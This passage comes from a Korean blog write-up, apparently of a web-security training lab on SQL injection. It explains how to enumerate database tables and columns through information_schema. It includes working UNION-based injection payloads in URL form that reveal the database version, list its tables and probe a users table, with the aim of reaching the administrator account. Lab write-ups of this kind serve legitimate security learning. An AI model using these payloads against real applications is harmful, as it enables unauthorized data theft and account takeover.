 이는 위와 같은 결과를 반환하는데, `Products`, `Users`, `Feedback`이라는 세 개의 테이블이 존재한다는 것을 알려준다.

<br>

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

`information_schema.columns`을 쿼리하여 개별 테이블 내의 컬럼을 나열할 수 있다.

<br>

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

이는 위와 같은 결과를 반환하는데, 특정한 테이블에 있는 컬럼과 각 컬럼의 데이터 타입을 보여준다.

<br>

## 🚩Lab: SQL injection attack, listing the database contents on non-Oracle databases

앞선 랩과 같이 테이블의 컬럼 수를 조사하여 2개임을 알아내고, 컬럼 중에서 문자열 데이터를 갖고 있는 컬럼을 조사하여 두 컬럼 모두 문자열 데이터를 가지고 있는 사실을 알아낸다.

<br>

이제 `administrator` 계정에 대한 정보를 얻기 위해서는 계정 정보가 저장되어 있는 테이블의 이름을 알아내어 해당 테이블의 내용을 모두 확인하면 된다.

<br>

`/filter?category='+UNION+SELECT+version(),NULL+--`

우선 위의 경로로 요청을 보내어 사용된 데이터베이스의 타입이 PostgreSQL이라는 것을 알 수 있다.

<br>

`/filter?category='+UNION+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables+--`

먼저 계정 정보가 저장되어 있는 테이블의 이름을 알아내어 보자. 위의 경로로 요청을 보내면 데이터베이스에 포함된 모든 테이블 정보를 알 수 있다.

<br>

![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/5de051e3-3d59-4b7d-977c-ada4e1539ed6)

그 중에서 사용자 정보를 담고 있을 것 같은 테이블을 찾기 위해 `user` 키워드를 갖고 있는 테이블을 찾아보면 위와 같이 `users_gsszwa` 테이블을 확인할 수 있다.


<br>

`/filter?category='+UNION+SELECT+COLUMN_NAME,DATA_TYPE+FROM+information_schema.columns+WHERE+TABLE_NAME='users_gsszwa'+--`

이제 위와 같이 페이로드를 작성하고 경로로 요청을 보내어 해당 테이블에 어떤 컬럼을 갖고 있고 그 컬럼의 데이터 타입이 무엇인지를 조사하자.

<br>

![image](https://github.com/1unaram/1unaram.github.io/assets/37824335/e8c77b6e-cad2-45b9-8456-258d47c1f17f)
